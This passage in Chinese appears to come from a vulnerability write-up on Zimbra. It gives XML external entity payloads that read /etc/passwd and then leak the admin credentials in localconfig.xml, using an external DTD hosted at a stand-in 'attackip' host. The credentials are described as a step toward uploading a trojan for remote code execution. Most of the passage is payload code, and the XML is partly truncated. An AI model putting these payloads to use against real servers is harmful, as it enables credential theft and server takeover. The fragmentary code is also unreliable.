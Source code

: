 我们可以写出如下payload，利用xxe漏洞

```php

<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
 <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
      <EMailAddress>123</EMailAddress>
      <AcceptableResponseSchema>&xxe;</AcceptableResponseSchema>
    </Request>
```

![image.png](assets/1700812438-91fba5211da2f4c6755b0a90464c78bf.png)

4、Zimbra为SOAP通信设置了一个全局管理员，用户名为“zimbra”，并随机生成密码。这些信息均存储在名为localconfig.xml的本地文件中。在某些条件下可以使用此类凭证，通过/service/extension/clientUploader/upload接口上传木马文件RCE。但是存在权限设置，通过管理端口才能发起请求，默认情况下端口是7071。

5、我们首先利用XXE读取localconfig.xml的本地文件，在Java环境的那我们可以使用CDATA读取，来绕过字符限制。

dtd文件

```php
<?xml version="1.0" encoding="UTF-8"?>  <!ENTITY all "%start;%goodies;%end;">
```

payload

```php
   
<!ENTITY % goodies SYSTEM "file:../conf/localconfig.xml">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://attackip/12.dtd"> 
%dtd; ]> 
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">
    <Request>
        <EMailAddress>aaaaa</EMailAddress>
        <AcceptableResponseSchema>&all;</AcceptableResponseSchema>
    </Request>
</Autodiscover>
```

